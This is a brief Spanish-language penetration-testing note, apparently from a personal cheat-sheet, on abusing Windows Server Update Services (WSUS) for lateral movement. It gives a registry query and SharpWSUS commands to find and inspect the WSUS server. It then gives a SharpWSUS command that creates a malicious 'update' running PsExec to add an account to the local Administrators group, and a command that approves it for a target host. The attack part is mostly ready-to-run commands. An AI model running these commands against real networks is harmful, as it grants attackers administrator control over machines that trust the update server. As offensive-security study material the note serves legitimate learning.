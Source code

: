# Info

Permite a los admins distribuir updates y parches para los productos de microsoft de manera remota dentro de una red.

# Permisos requeridos (uno u otro)

- Privilgios administrativos en el server WSUS.
- Un user del Administrator group
- Un user del WSUS administrator group

# Enumeración

## Encontrar el server WSUS

### Desde el registro

Podemos preguntar qué host es el server de WSUS desde el registro:

    reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

### SharpWSUS

    .\SharpWSUS.exe locate

## Enumeración en el server:

    .\SharpWSUS.exe inspect


# Movimiento Lateral

### Con SharpWSUS

- Podemos aprovechar este servicio para crear un parche que nos genere una conexión remota permitiendonos ejecutar código en un host.

Para esto podemos usar SharpWSUS

WSUS solo puede ejecutar binarios firmados por Microsoft. PSExec de la Sysinternals está firmado por windows, podemos usarlo.

##### 1) Creamos el parche malicioso

Este parche agrega a un user al grupo de administrador

    .\SharpWSUS.exe create /payload:"C:\Tools\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators filiplain /add" /title:"NewAccountUpdate"


##### 2) Vamos a la solapa security updates dentro de Windows Server update service
##### 3) Extraemos el Update ID de nuestro parche
##### 4) Lo adjudicamos a un equipo

    .\SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local /groupname:"FastUpdates"

